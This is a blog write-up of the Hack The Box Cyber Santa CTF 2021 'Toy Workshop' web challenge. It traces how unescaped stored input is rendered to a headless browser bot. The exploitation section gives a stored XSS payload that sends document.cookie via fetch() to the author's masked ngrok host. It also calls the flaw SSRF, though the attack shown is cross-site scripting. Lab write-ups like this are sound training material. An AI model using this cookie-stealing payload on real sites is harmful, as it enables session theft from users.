 ## HTB Cyber Santa CTF 2021: Toy Workshop

# Introduction

> The work is going well on Santa's toy workshop but we lost contact with the manager in charge! We suspect the evil elves have taken over the workshop, can you talk to the worker elves and find out?

This is a complete write-up for the Toy Workshop challenge at Cyber Santa CTF 2021 hosted by Hack The Box. Learn more from additional readings found at the end of the article. I would be thankful if you mention me when using parts of this article in your work. Enjoy!

# Basic information

| #     |   |
|:--    |:--|
|Type    | Jeopardy CTF / Web |
|Organized  by | [Hack The Box](https://www.hackthebox.com/events/santa-needs-your-help)
|Name    | ** HTB Cyber Santa CTF / Toy Workshop** |
|URLs    | https://ctftime.org/event/1523/ |
| | https://ctf.hackthebox.com/ctf/249| 
|Author  | **Asentinn** / OkabeRintaro|
|       | [https://ctftime.org/team/152207](https://ctftime.org/team/152207)

> 🔔 `CyberEthical.Me` is maintained purely from your donations - consider one-time sponsoring with the [Sponsor](/sponsor) button or 🎁 [become a Patron](https://www.patreon.com/cyberethicalme) which also gives you some bonus perks. 
Join our [Discord Server](https://discord.com/invite/5MjU4Cxf3R)!

%%[bmac-button]

# Recon

We have a downloadable content and docker instance to spin up.

By reading the source code, we can establish the flow of the application. There is a `toy_workshop.db` database

```js
//index.js
const db = new Database('toy_workshop.db');
```

that holds a `queries` table.

```sql
--datbase.js
DROP TABLE IF EXISTS queries;

CREATE TABLE IF NOT EXISTS queries (
    id          INTEGER      NOT NULL PRIMARY KEY AUTOINCREMENT,
    query       VARCHAR(500) NOT NULL,
    created_at  TIMESTAMP    DEFAULT CURRENT_TIMESTAMP
);
```

The application can interact with that table through following queries:

```sql
--database.js

--addQuery(query)
INSERT INTO queries (query) VALUES (?)

--getQueries()
SELECT * FROM queries
```

The only way we can interact with the database is to insert new query

```js
//routes/index.js
router.post('/api/submit', async (req, res) => {

		const { query } = req.body;
		if(query){
			return db.addQuery(query)
				.then(() => {
					bot.readQueries(db);
					res.send(response('Your message is delivered successfully!'));
				});
		}
		return res.status(403).send(response('Please write your query first!'));
});
```

because `/queries` call can be executed only from the `localhost`.

```js
//routes/index.js
router.get('/queries', async (req, res, next) => {
	if(req.ip != '127.0.0.1') return res.redirect('/');

	return db.getQueries()
		.then(queries => {
			res.render('queries', { queries });
		})
		.catch(() => res.status(500).send(response('Something went wrong!')));
});
```

The `/queries` endpoint is called by the browser emulator - [Puppeteer](https://github.com/puppeteer/puppeteer).

```js
//bot.js
const puppeteer = require('puppeteer');

const browser_options = {
	headless: true,
	//...
};

const cookies = [{
	'name': 'flag',
	'value': 'HTB{f4k3_fl4g_f0r_t3st1ng}'
}];

const readQueries = async (db) => {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();
		await page.goto('http://127.0.0.1:1337/');
		await page.setCookie(...cookies);
		await page.goto('http://127.0.0.1:1337/queries', {
			waitUntil: 'networkidle2'
		});
		await browser.close();
		await db.migrate();
};

module.exports = { readQueries };`
```

When analyzing the bot's `readQueries` function and the `/api/submit` endpoint code, we have the clear situation.

1. Submitting the new query (adding row to `queries` table) executes the `bot.readQueries()` function.
2. Bot opens the web application page: `http://127.0.0.1:1337/`
3. Bot sets cookie `flag=HTB{.*}`.
4. Queries are read by rendering the `views/queries.hbs` view without any sanitization.
```js
//views/queries.hbs
 <div class="dash-frame">
    {{#each queries}}
            <p>{{{this.query}}}</p>
        {{else}}
            <p class="empty">No content</p>
        {{/each}}
</div>
```

There is a potential SSRF (*Server Side Request Forgery*) with *Sensitive Data Exposure* vulnerability.

# Weaponizing

We should be able to push into the `queries` table the malicious JS code that would read the `flag` cookie and sends it back somehow, so we can read the flag. I found this pattern easy to recognize because I was participating in the HTB Cyber Apocalypse CTF this year (2021) and watched some John Hammond video about Alien Journal (see [Additional readings](#heading-additional-readings)).

So, what I did is I set up a simple `ngrok` tunnel on my machine without listener on my end. I can do that because `ngrok` provides a nice dashboard under `localhost:4040` so I can see the incoming connections.

# Exploitation

With that ready, I write an API call to insert the malicious JS into the queries table.

```js
var q = "<script>fetch('http://****-**-***-***-***.ngrok.io/flag', {method:'POST', body: document.cookie});</script>";
fetch('/api/submit', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
        },
        body: JSON.stringify({query: q}),
    })
    .then((response) => response.json()
        .then((resp) => {
            console.log(resp);
        }))
    .catch((error) => {
        console.log(error)
    });
```

![2021-12-01-14-37-35.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1638741878576/z7rD-jaNq.png)

# Additional readings

> 📌 Follow the `#CyberEthical` hashtag on the social media  
> 🎁 Become a Patron and [gain additional benefits](https://www.patreon.com/cyberethicalme)  
> 👾 Join CyberEthical [Discord server](https://discord.com/invite/5MjU4Cxf3R)  
> 👉 Instagram: [@cyber.ethical.me](https://www.instagram.com/cyber.ethical.me/)  
> 👉 LinkedIn: [CyberEthical.Me](https://www.linkedin.com/company/cyberethical-me)  
> 👉 Twitter: [@cyberethical_me](https://twitter.com/cyberethical_me)  
> 👉 Facebook: [@CyberEthicalMe](https://facebook.com/CyberEthicalMe)  

* [Cloudflare CDN CSP - XSS Bypass / HackTheBox Cyber Apocalypse CTF](https://www.youtube.com/watch?v=uU_tvQPCBUo) by John Hammond
* [OWASP Top 10:2021
A10 Server Side Request Forgery (SSRF)](https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/) @ OWASP
* [Cross Site Scripting](https://owasp.org/www-community/attacks/xss/) @ OWASP

> Do you like what you see? Join the [Hashnode.com](https://blog.cyberethical.me/join) now and start publishing. Things that are awesome:  
>✔ Automatic GitHub Backup  
>✔ Write in Markdown  
>✔ Free domain mapping  
>✔ CDN hosted images  
>✔ Free built-in newsletter service  
>✔ Built-in blog monetizing through the Sponsor feature  
> By using my link, you can help me unlock the ambassador role, which cost you nothing and gives me some additional features to support my content creation mojo.

